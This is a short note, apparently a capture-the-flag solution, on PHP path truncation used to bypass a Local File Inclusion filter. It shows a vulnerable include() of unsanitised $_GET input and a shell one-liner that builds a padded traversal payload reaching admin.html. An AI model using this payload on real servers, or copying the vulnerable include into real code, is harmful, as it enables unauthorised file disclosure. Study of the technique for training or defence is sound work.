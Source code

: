 
On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.
>This attack leverages PHP's internal handling of long file paths, specifically how paths exceeding a certain length (typically 4096 bytes) are silently truncated. This can bypass security controls in Local File Inclusion (LFI) vulnerabilities by altering the way file paths are resolved before reaching system calls.

Considering a php script:
```php
include("ch35/".$_GET['page'].".php");
```

Read more on this [document](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20path%20truncation.html)



Payload command: `echo 'a/../admin.html'$(printf '/.'%.0s {1..2027})'`

    